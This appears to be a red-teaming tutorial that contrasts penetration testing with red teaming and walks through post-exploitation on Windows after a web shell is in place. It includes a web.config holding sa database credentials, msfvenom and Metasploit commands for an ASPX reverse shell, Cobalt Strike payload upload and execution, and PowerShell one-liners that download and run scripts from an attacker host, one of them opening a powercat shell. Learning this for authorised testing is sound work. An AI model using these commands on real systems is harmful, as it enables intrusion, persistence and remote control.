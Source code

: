 ### Penetration Testing and Red Teaming Scenarios

In real-world scenarios, achieving the goals of a penetration test or red teaming project can typically be approached in two ways:

1. Exploiting services
2. Social engineering

### Attack Surface for Enterprise Organizations

Enterprise organizations have numerous services that can serve as attack surfaces. Examples include:

- Web applications / APIs
- Jenkins
- GitLab
- CRM systems
- Microsoft Exchange
- SharePoint
- VPNs
- And more...

### Penetration Testing Approach

A penetration tester typically follows OWASP methodologies when targeting web applications or APIs. For instance, a tester might exploit vulnerabilities in a web application, upload a web shell, and conclude the penetration testing project once the web shell has been successfully uploaded.

**Penetration Test Process (Simplified):**

1. Identify and exploit web application vulnerabilities.
2. Upload a web shell.
3. Validate access and document findings in the final report.

---

### Red Teaming Approach

For red teamers, the work often begins **after** the web shell is uploaded. Unlike penetration testing, red teaming involves simulating a more sophisticated, adversarial attack aimed at achieving deeper access and persistence within the network.

#### Initial Access and Challenges

1. **Workgroup vs Domain:**
    
    - If the target web server is in a workgroup, gaining access to the domain becomes a priority. This may involve finding credentials or pivoting through lateral movement.
    - If the server is already part of a domain, the focus shifts to escalating privileges and moving laterally within the domain.
2. **Privilege Levels:**
    
    - Initial access might be as a low-privileged user, but due to common misconfigurations, elevated privileges such as `SYSTEM` or `root` might be achievable. For example:
        - Uploading a web shell might provide immediate access to the `NT SYSTEM` account.

#### Example Misconfiguration: Database Credentials

Often, sensitive configuration files such as `web.config` in IIS web servers (located in `C:\inetpub\wwwroot\webapplicationpath\`) contain database connection strings. For example:

```
<connectionStrings>
    <add name="DBConnectionString" connectionString="Data Source=SQLSERVER;Initial Catalog=MyDatabase;User ID=sa;Password=password123" />
</connectionStrings>

```

In this case:

- The `sa` user and password could allow direct access to the SQL database.
- If the SQL server runs as `NT SYSTEM`, commands can be executed with elevated privileges using tools like `xp_cmdshell`.

### Assumed Breach Methodology

The **Assumed Breach** methodology is popular for red teaming. This approach skips the reconnaissance, resource development, and initial access tactics from the MITRE ATT&CK framework, assuming instead that the network is already compromised.

#### Example Scenario:

1. After gaining domain admin privileges, you might need to access an internal service such as RDP (port 3389). If the firewall does not allow external access, port forwarding tools such as `tunna` or the Metasploit `portforward` module can help.

#### Using Metasploit for Port Forwarding:

 Create a Meterpreter payload:
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.174.147 LPORT=1234 -f aspx -o shell.aspx
```

Start a Metasploit handler:

```
msfconsole
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.174.147
set LPORT 1234
run

```

Perform post-exploitation tasks for instances:
Enable SOCKS proxy:

```
run post/multi/manage/socks_proxy
```


Scan for open ports:

```
run post/multi/gather/portscan
```

Upload long-haul backdoors, such as Cobalt Strike payloads:

```
upload <payload_file> C:\temp\payload.exe 
execute -f C:\temp\payload.exe
```


### Post-Exploitation Discovery

Through the web shell, various **PowerShell commands** can be used for information gathering (discovery). Examples include:

#### Gathering Domain Information:

```
$env:USERDNSDOMAIN
(Get-ADDomain).DNSRoot
(Get-WmiObject Win32_ComputerSystem).Domain
Get-ADDomain | select DNSRoot, NetBIOSName, DomainSID
Get-ADForest
nltest /domain_trusts

```

#### Downloading and Running Scripts In-Memory:

PowerShell allows downloading and executing scripts in-memory, which is useful for evasion. Examples include using tools like Nishang and PowerCat:

```
powershell -c iex ((New-Object Net.WebClient).DownloadString('http://192.168.174.147/Get-Information.ps1')); Get-Information

```

```
powershell.exe -c iex ((New-Object Net.WebClient).DownloadString('http://192.168.174.147/powercat.ps1')); powercat -l -p 443 -e cmd

```
